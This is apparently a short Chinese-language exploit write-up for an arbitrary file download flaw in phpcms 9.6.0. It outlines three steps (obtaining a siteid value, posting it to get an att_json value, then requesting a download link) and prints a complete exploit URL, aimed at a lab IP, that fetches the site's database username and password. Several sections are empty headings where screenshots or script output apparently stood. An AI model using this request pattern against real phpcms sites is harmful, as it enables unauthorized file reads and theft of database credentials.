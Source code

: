 # phpcms9.6.0 任意文件下载
## 漏洞利用
### 获取TaHGY_siteid值

### 利用post TaHGY_siteid值得到TaHGY_att_json值

### 访问网址，即可下载数据库用户名与密码
http://192.168.150.131:8080/index.php?m=content&c=down&a=init&a_k=9e1aduoGZpLTNR_V_R15JOw-LDmJQ75fItd4lRFIjsLWBUOiNB7hEQKPzNHnMhO9TAl0KI0CXYukHPQPS3qCGRPIz5oB--d1yS_3uONlYzcNelC2t3RTfaWYmOI2g2kMpIk79EGDhSxaAjokMsjSSE2alhR6PaINMxWOTCuoEINi83s


## py代码执行结果
